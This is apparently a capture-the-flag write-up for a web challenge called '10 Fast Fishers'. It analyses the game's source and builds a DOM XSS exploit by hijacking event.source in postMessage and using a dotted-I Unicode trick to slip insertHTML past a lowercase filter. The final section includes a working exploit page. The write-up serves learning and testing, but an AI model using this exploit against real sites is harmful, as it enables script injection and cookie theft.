







# 10 Fast Fishers

Challenge made by Mizu

"1 Star"

Think you've got fast typing skills? Prove it in 10 Fast Fishers — the addictive underwater typing game where speed meets style!

Watch colorful fish swim across your screen, each carrying a word. Type fast, match the word, click the fish, and watch your document transform before your eyes. Bold pufferfish, italic angelfish, and even some sneaky jellyfish that'll mess with your formatting!

Build combos, rack up points, and become the ocean's greatest typist. But beware of the squid... 🦑

Ready to make a splash? The shrimp are waiting!

    Application: https://10-fast-fishers.fcsc.fr/
    Bot: nc challenges.fcsc.fr 2251
    Note: The challenge VM has Internet access.


> **TL;DR**
> 1. postMessage Exploitation, use event.source hijacking to bypass a check https://book.jorianwoltjer.com/web/client-side/cross-site-scripting-xss/postmessage-exploitation#event.source-hijacking0
> 2.  Use dotted I normalization `İ` (U+0130) to bypass a filter on "inserthtml" and use execCommand with it and trigger XSS

## The game
10 Fast Fishers is an app inspired by those typing minigames.

Sea creatures will regularly show up on the screen with a word associated with them. The wordlist is the text at the bottom of the page. The goal is to type the right word to select them and click on the fish to earn points. Each fish has a label which will to some changes on the text. 


(For example, clicking on the shark here with the right word will toggle strikethrough on the first "eyes" word in the text)

However, there are also molluscs that remove points and can permanently delete words from the editor.

Interestingly, when the app is launched for the first time, there's already a word input area. "shrimp". This will be useful later (foreshadowing)



## Code analysis

Let's dive into the source code.

There isn't a lot of files, the interesting ones are `server.js`, `index.html`, `aquarium.html` and most importantly `aquarium.js` and `game.js`.
The bot uses `bot.js` and `utils.js`
server.js : 
```
const express = require('express');
const path = require('path');

const app = express();
const PORT = 5000;
app.use(express.static(path.join(__dirname, 'public')));

app.get('/', (req, res) => {
    res.sendFile(path.join(__dirname, 'public', 'index.html'));
});

app.get('/aquarium', (req, res) => {
    res.sendFile(path.join(__dirname, 'public', 'aquarium.html'));
});

app.listen(PORT, () => {
    console.log(`🎣 10 Fast Fishers running at http://localhost:${PORT}`);
});

```

So there are just two endpoints :  `http://localhost:5000/` and `http://localhost:5000/aquarium.html`.

What we know from index.html : 
The aquarium where the fishes appear and move is actually an iframe that uses `/aquarium`. 

```
<div class="aquarium-container">
	<iframe id="aquariumFrame" src="/aquarium" ></iframe>
</div>
```

`aquarium.html` uses `aquarium.js`. Everything that happens in `/aquarium` will be sent to the parent.

The editor (the place where you can see the text about the shrimp) is initially empty. While it has the contentEditable property, only the script game edit the text.

```
<div class="word-input-section">
	<div class="word-input-wrapper">
		<input type="text" id="wordInput" placeholder="🔍 Type a word to select it..." autocomplete="off">
		<div class="selected-word-display" id="selectionStatus">No selection</div>
	</div>
</div>

<div id="editor"></div>
```

index.html simply uses the game.js script.

`bot.js`

The bot has a cookie with the flag as the value and httpOnly set to false. Every console.log usage on the bot will be sent back to you.
We can easily infer that a XSS needs to be exploited. Instead of sending the cookie to a webhook, we need to trigger `console.log(document.cookie)`


## Cross-window communication

The home page and the  aquarium iframe embedded within it can interact and exchange information with each other using the ``window.addEventListener()`` and ``window.postMessage()`` methods.  postMessage provides a controlled mechanism to circumvent the same-origin policy. [(Ref)](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)

`aquarium.js` listens for any message from the parent. It makes thorough checks to make sure that the messages were sent by the parent by matching ``event.source`` and ``event.origin``.

```
// Get parent origin
const PARENT_ORIGIN = window.location.origin;
// Listen for messages from parent
window.addEventListener('message', (e) => {
    // Verify origin - only accept from parent
    if (e.source !== window.parent) return;
    
    // Verify origin matches
    if (e.origin !== PARENT_ORIGIN) {
        console.warn('Message rejected: invalid origin', e.origin);
        return;
    }
    
    const { type, data } = e.data;
    
    if (type === 'START_GAME') {
        wordPool = data.wordPool;
        startSpawning();
    } else if (type === 'END_GAME') {
        stopSpawning();
    } else if (type === 'CATCH_RESULT') {
        handleCatchResult(data);
    }
});

// Notify parent that iframe is ready
window.parent.postMessage({ type: 'IFRAME_READY' }, PARENT_ORIGIN);

// ...
```

Let's focus on how the fishes work.

A fish is composed of multiple parameters :

```
const fishData = {
	element: fish,
	command: fishType.command,
	value: value,
	points: fishType.points,
	targetWord: targetWord,
	negative: fishType.negative || false
};
```

- command and value are parameters used in the execCommand() method. This will be explained in more detail later. Basically this is used to edit text.
- points means how much points a fish should give.
- targetWord is the word associated with the fish, this is also the word that will be edited.
- If the creature gives a malus, it will trigger a different effect on the screen when it's selected with the right word.

There are several fish types.

```
const fishTypes = [
    { emoji: '🐡', command: 'bold', label: 'BOLD', points: 10 },
    { emoji: '🐠', command: 'italic', label: 'ITALIC', points: 10 },
    { emoji: '🐟', command: 'underline', label: 'UNDERLINE', points: 10 },
    { emoji: '🐙', command: 'foreColor', label: 'COLOR', points: 15, value: null },
    { emoji: '🦈', command: 'strikeThrough', label: 'STRIKE', points: 20 },
    { emoji: '🐳', command: 'fontSize', label: 'BIG', points: 15, value: '6' },
    { emoji: '🦐', command: 'fontSize', label: 'SMALL', points: 15, value: '2' },
    { emoji: '🪼', command: 'removeFormat', label: 'REMOVE', points: -15, negative: true },
    { emoji: '🦑', command: 'delete', label: 'DELETE', points: -20, negative: true },
];
```

When a fish is clicked and the game is running, it will notify the parent by sending a postMessage with all the data.

```
fish.addEventListener('click', (e) => {
	e.stopPropagation();
	if (gameRunning) {
		// Send message to parent with fish data
		window.parent.postMessage({
			type: 'FISH_CLICKED',
			data: {
				command: fishData.command,
				value: fishData.value,
				points: fishData.points,
				targetWord: fishData.targetWord,
				negative: fishData.negative,
				fishId: activeFish.indexOf(fishData),
				x: e.clientX,
				y: e.clientY
			}
		}, PARENT_ORIGIN);
	}
});
```

`game.js` will handle this postMessage and treat it.

```
const aquariumFrame = document.getElementById('aquariumFrame');
//rest of the code...

window.addEventListener('message', (e) => {
    
    if (e.source !== aquariumFrame.contentWindow) {
        // Window http://localhost:5000/aquarium
        console.warn('Message rejected: not from iframe');
        return;
    }

    console.log('[message]> Valid message received, processing...');
    const { type, data } = e.data;
    
    if (type === 'IFRAME_READY') {
        iframeReady = true;
        console.log('Iframe is ready');
    } else if (type === 'FISH_CLICKED') {
        handleFishClick(data);
    }
});
```

First of all, it checks if the message was sent from the aquarium iframe. If not, it rejects it. Otherwise, it will take the postMessage data and run the handleFishClick() function with it as a parameter.

Then it runs execCommand(). The ``document.execCommand()`` method can execute various commands like edit `contentEditable` elements in our case. This method is deprecated and the feature no longer recommended. [(Ref)](https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand)

The `insertHTML` is a potential **XSS vector**. A custom filter has been added to prevent this.



Then there's no input sanitization in `<div id="editor"></div>` so we can put whatever we want.

```
function handleFishClick(data) {
    const { command, value, points, targetWord, fishId } = data;
    console.log("[handleFishClick]>", JSON.stringify(data));

    // TODO: Safely implement insertHtml command
    if (command.toLowerCase() === 'inserthtml') {
        return;
    }

    if (currentSelectedWord.toLowerCase() === targetWord.toLowerCase()) {
        selectTextInEditor(currentSelectedWord);

        try {
            document.execCommand(command, false, value);
        } catch (e) {
            console.log('ExecCommand error:', command, e);
        }
		
		// This part tells how the score is calculated. 
		// It's not useful for the chall so I removed it
		// Did I tell you that there was a combo system ?
		// ...
		
		
        aquariumFrame.contentWindow.postMessage({
            type: 'CATCH_RESULT',
            data: { fishId, success: true, earnedPoints, isNegative }
        }, "*");

        wordInput.focus();
    } else {
		// If the text is incorrect, there's a penalty
		// ...

        aquariumFrame.contentWindow.postMessage({
            type: 'CATCH_RESULT',
            data: { fishId, success: false, earnedPoints: penalty, isNegative: false }
        }, "*");
    }
}
```

If we take the shrimp for example :

```
{ emoji: '🦐', command: 'fontSize', label: 'SMALL', points: 15, value: '2' }
```

```
document.execCommand('fontSize', false, '2');
```

It will change the font size for the selected text to 2.

Then it sends another message to the iframe with the `CATCH_RESULT` signal with  `success: true` if the text was correct.

The event listener in `game.js` will then execute the handleCatchResult(data) function

```
if (type === 'CATCH_RESULT') {
        handleCatchResult(data);
    }
```

Which will edit the text with the associated effect.

```
function handleCatchResult(data) {
    const { fishId, success, earnedPoints, isNegative } = data;
    const fishData = activeFish[fishId];
    if (!fishData) return;

    const fish = fishData.element;
    const rect = fish.getBoundingClientRect();

    if (success) {
        // Show catch effect
        const effect = document.createElement('div');
        effect.className = 'effect';
        effect.textContent = isNegative ? `${earnedPoints} 💀` : `+${earnedPoints} ✓`;
        effect.style.color = isNegative ? '#ef4444' : colors[Math.floor(Math.random() * colors.length)];
        effect.style.left = (rect.left + 20) + 'px';
        effect.style.top = rect.top + 'px';
        document.body.appendChild(effect);
        setTimeout(() => effect.remove(), 800);

        // Remove fish
        fish.style.transition = 'all 0.2s';
        fish.style.transform = 'scale(0) rotate(360deg)';
        fish.style.opacity = '0';
        
        setTimeout(() => {
            fish.remove();
            activeFish = activeFish.filter(f => f !== fishData);
        }, 200);
    } else {
        // Miss effect
        const effect = document.createElement('div');
        effect.className = 'effect';
        effect.textContent = `${earnedPoints} ❌`;
        effect.style.color = '#ef4444';
        effect.style.left = (rect.left + 20) + 'px';
        effect.style.top = rect.top + 'px';
        document.body.appendChild(effect);
        setTimeout(() => effect.remove(), 600);

        // Shake fish
        fish.style.animation = 'shake 0.3s ease-in-out';
        setTimeout(() => { fish.style.animation = ''; }, 300);
    }
}
```
## Vulnerabilities

Simply reading `game.js` will reveal that there's something wrong with `execCommand()`. That's why a custom filter with ``.toLowerCase()`` has been added.

However unicode normalization happens when using ``.toUpperCase()`` or ``.toLowerCase()``. Some characters are transformed, and then another normalization seems to happen if this character is used in execCommand. [(Ref 1)](https://mizu.re/post/exploring-the-dompurify-library-hunting-for-misconfigurations)
[(Ref 2)](https://x.com/garethheyes/status/1858572181472768072)


In our case, the dotted I (U+0130) can be used to bypass the inserthtml comparison and then normalized to a latin small letter i (U+0069) and be able to execute the inserHTML command, giving us XSS injection.

```
// U+0130
'İ'.toLowerCase() => "i̇"
// U+0069 
```

I proved it by adding a crab in the fish pool with this custom command that will replace the text with the XSS payload.

```
{ emoji: '🦀', command: 'İnsertHTML', label: 'ALERT', points: 12, value: '' },
```



When I click on the crab with the right word, I will trigger an alert the first time and every time a valid word appears in the text.

To exploit the multiple  `addEventListener()` methods, I can host a malicious iframe and use the ``postMessage()`` method to pass the malicious web message data to the vulnerable event listener. The parent will assume that a fish with these parameters has been clicked (it doesn't check fishTypes) and process it and then trigger DOM XSS.



We still need a word to edit and we can't start the game through an iframe. 
Remember that "shrimp" word that was initialized ? Well, we're going to exploit it now.

```
wordInput.value = 'shrimp';
selectWordInEditor('shrimp');
```

Since that word is selected by default, if we create a fake fish that had the targetWord 'shrimp', it will replace it with our XSS payload.

Here's an example with the devtools console


File to host
```
<!DOCTYPE html>
<html>

<iframe src="http://localhost:5000" onload="this.contentWindow.postMessage({
    type: 'FISH_CLICKED',
    data: {
      command: 'İnsertHTML',
      value: '',
      points: 12,
      targetWord: 'shrimp',
      negative: false,
      fishId: 1,
      x: 0,
      y: 0
    }
  }, '*');">
</html>
```

[(Ref)](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source)

I initially tested this payload, but nothing happened.
However, when I commented out this part in `game.js`, the XSS worked.
```
window.addEventListener('message', (e) => {
	// This part
	if (e.source !== aquariumFrame.contentWindow) {
		
		console.warn('Message rejected: not from iframe');
		return;
	}
```

The second vulnerability is that **message verification in game.js only depends on event.source**. 

```
e.source !== document.getElementById('aquariumFrame').contentWindow
```
It checks if the message was sent from the right frame, the one associated with aquariumFrame.
If I hosted the file at ``http://localhost:7777``, I would get this in the devtools console  

```
e.source
Restricted http://localhost:7777/

document.getElementById('aquariumFrame').contentWindow
Window http://localhost:5000/aquarium
```

I knew that I had to bypass this somehow.

One hacktricks fork mentions making the event.source `null` by sending a message from the iframe and immediately removing it but we only have a strict inequality here.

I was stuck on this part for a veeeeeeeeery long time, until I found the right article that mentions a similar event.source verification.

[Ref](https://book.jorianwoltjer.com/web/client-side/cross-site-scripting-xss/postmessage-exploitation#event.source-hijacking)

This article explains it very clearly.  `event.source` hijacking can be used to bypass the comparison. I just needed to adapt it a little bit.

`index.html`
```
<!DOCTYPE html>
<html>
    <!-- http://localhost:5000 -->
<iframe id="iframe" src="http://10-fast-fishers-app:5000"></iframe>
<script>
// After 10ff app has loaded and the frame was created, redirect it to our page
iframe.onload = () => {
    const inner = iframe.contentWindow.frames[0];
    inner.location = "about:blank";  // Hijack the inner iframe
    
    const interval = setInterval(() => {
        inner.origin; // When it becomes same-origin
        clearInterval(interval);
        inner.eval(`
            parent.postMessage({
                type: 'FISH_CLICKED',
                data: {
                command: '\u0130nsertHTML',
                value: '',
                points: 12,
                targetWord: 'shrimp',
                negative: false,
                fishId: 1,
                x: 0,
                y: 0
                }
            }, '*'); // Send to parent from inner
        `);

    })
  }
</script>
</html>
```

This finally works.



```
[message]> Valid message received, processing... game.js:63:13
[handleFishClick]> {"command":"İnsertHTML","value":"","points":12,"targetWord":"shrimp","negative":false,"fishId":1,"x":67,"y":67}
```




